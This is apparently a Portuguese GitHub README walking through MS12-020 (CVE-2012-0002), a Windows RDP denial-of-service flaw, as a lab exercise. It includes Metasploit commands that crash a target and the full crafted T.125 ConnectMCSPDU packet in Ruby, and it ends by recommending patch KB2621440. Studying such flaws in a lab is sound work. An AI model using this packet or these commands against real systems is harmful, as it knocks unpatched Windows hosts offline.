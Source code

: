 # Exploring-MS12-020 / CVE-2012-0002

***"The Microsoft Remote Desktop Protocol (RDP) provides remote display
and input capabilities over network connections for Windows-based
applications running on a server. RDP is designed to support different
types of network topologies and multiple LAN protocols."***

 - O RDP é usado pelo "Terminal Services e Remote Desktop Services" e
   funciona no nível de kernel na porta 3389.
   
  - Existe uma vulnerabilidade que ocorre no manuseio do apontador
   pendente no campo maxChannelsIds do pacote T.125 ConnectMCSPDU que
   fica nesse estado de vulnerabilidade quando setado para menor/igual ao número 5.
   
  - Observe que nas versões do Windows pós-Vista (como 7 e 2008) "parece"
   necessário ter "Permitir conexões de computadores executando qualquer
   versão da área de trabalho remota "por ser vulnerável.
   
   - A code-exec ocorre durante a desconexão usuário. A capacidade de
   exploração depende da possibilidade de controlar o ESI ou o conteúdo
   apontado por ele.

![](https://ifconfig.dk/wp-content/uploads/2014/02/RDPkill1.png)

# Metasploit 

```console
root@kali# msfconsole

msf5 > use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > set RHOSTS 192.168.X.X
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > run
```

A máquina Windows será paralisada, causando a famosa "TELA AZUL DA MORTE"

# Instalações
Para entender como criar e instalar uma VM com o SO - Win 7, recomendo acessar o seguinte link: [https://www.comoinstalar.com.br/virtualizacao/como-instalar-o-windows-7/](https://www.comoinstalar.com.br/virtualizacao/como-instalar-o-windows-7/) 

E para fazer a instalação do VirtualBox :
[https://www.virtualbox.org/wiki/Downloads](https://www.virtualbox.org/wiki/Downloads) 


# Código

O buffer que deve ser adicionado é o seguinte:

```ruby
pkt = ''+
      "\x03\x00\x00\x13" +  # TPKT: version + length
      "\x0E\xE0\x00\x00" +  # X.224 (connection request)
      "\x00\x00\x00\x01" +
      "\x00\x08\x00\x00" +
      "\x00\x00\x00"     +
      "\x03\x00\x00\x6A" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224 (connect-initial)
      "\x7F\x65\x82\x00" +  # T.125
      "\x5E"             +
      "\x04\x01\x01"     +  # callingDomainSelector
      "\x04\x01\x01"     +  # calledDomainSelector
      "\x01\x01\xFF"     +  # upwardFlag
      "\x30\x19"         +  # targetParameters
      max_channel_ids    +  # maxChannelIds
      "\x02\x01\xFF"     +  # maxUserIds
      "\x02\x01\x00"     +  # maxTokenIds
      "\x02\x01\x01"     +  # numPriorities
      "\x02\x01\x00"     +  # minThroughput
      "\x02\x01\x01"     +  # maxHeight
      "\x02\x02\x00\x7C" +  # maxMCSPDUsize
      "\x02\x01\x02"     +  # protocolVersion
      "\x30\x19"         +  # minimumParameters
      max_channel_ids    +  # maxChannelIds
      "\x02\x01\xFF"     +  # maxUserIds
      "\x02\x01\x00"     +  # maxTokenIds
      "\x02\x01\x01"     +  # numPriorities
      "\x02\x01\x00"     +  # minThroughput
      "\x02\x01\x01"     +  # maxHeight
      "\x02\x02\x00\x7C" +  # maxMCSPDUsize
      "\x02\x01\x02"     +  # protocolVersion
      "\x30\x19"         +  # maximumParameters
      max_channel_ids    +  # maxChannelIds
      "\x02\x01\xFF"     +  # maxUserIds
      "\x02\x01\x00"     +  # maxTokenIds
      "\x02\x01\x01"     +  # numPriorities
      "\x02\x01\x00"     +  # minThroughput
      "\x02\x01\x01"     +  # maxHeight
      "\x02\x02\x00\x7C" +  # maxMCSPDUsize
      "\x02\x01\x02"     +  # protocolVersion
      "\x04\x82\x00\x00" +  # userData
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x0C" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x38\x00\x06\x03" +  # T.125
      "\xF0"             +
      "\x03\x00\x00\x09" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x21\x80"            # T.125
```
Por fim, a instalação da atualização de segurança KB2621440 através da atualização do Windows fecha esta vulnerabilidade. Com isso, espero que prove meu ponto de sempre manter seu sistema atualizado.
